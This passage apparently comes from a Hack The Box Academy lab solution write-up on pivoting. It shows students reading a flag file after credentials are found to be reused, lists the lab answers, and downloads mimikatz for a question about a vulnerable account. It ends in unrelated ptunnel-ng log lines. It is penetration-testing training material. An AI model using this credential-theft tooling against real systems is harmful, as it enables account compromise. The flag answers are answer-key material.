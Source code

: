 ![[HTB Solutions/CPTS/z. images/e4a84451cd976fdfc0b070a1eb9ec1b1_MD5.jpg]]

Students will notice that, indeed the credentials have been reused. At last, students need to print out the contents of the flag file "Flag.txt", which is under the `C:\` directory, to find `S1ngl3-Piv07-3@sy-Day`:

```powershell
type C:\Flag.txt
```
```
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\mlefay> type C:\Flag.txt

S1ngl3-Piv07-3@sy-Day
```

Answer: `S1ngl3-Piv07-3@sy-Day`

# Skills Assessment

## Question 5

### "In previous pentests against Inlanefreight, we have seen that they have a bad habit of utilizing accounts with services in a way that exposes the users credentials and the network as a whole. What user is vulnerable?"

Students first need to download [mimikatz](https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip) and then unzip `mimikatz_trunk.zip`:

```shell
wget https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip
unzip mimikatz_trunk.zip
```
```
┌─[eu-academy-1]─[10.10.15.28]─[htb-ac413848@htb-w1xogjok4c]─[~]
└──╼ [★]$ wget https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip

--2022-11-20 16:18:42--  https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip
Resolving github.com (github.com)... 140.82.121.3
Connecting to github.com (github.com)|140.82.121.3|:443... connected.
HTTP request sent, awaiting response... 302 Found
<SNIP>
Saving to: ‘mimikatz_trunk.zip’

mimikatz_trunk.zip                      100%[=============================================================================>]   1.15M  --.-KB/s    in 0.02s   

2022-11-20 16:18:43 (64.6 MB/s) - ‘mimikatz_trunk.zip’ saved [1206166/1206166]

┌─[eu-academy-1]─[10.10.15.28]─[htb-ac413848@htb-w1xogjok4c]─[~]
└──╼ [★]$ unzip mimikatz_trunk.zip 
Archive:  mimikatz_trunk.zip
  inflating: kiwi_passwords.yar      
  inflating: mimicom.idl             
  inflating: README.md               
   creating: Win32/
<SNIP>
```


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.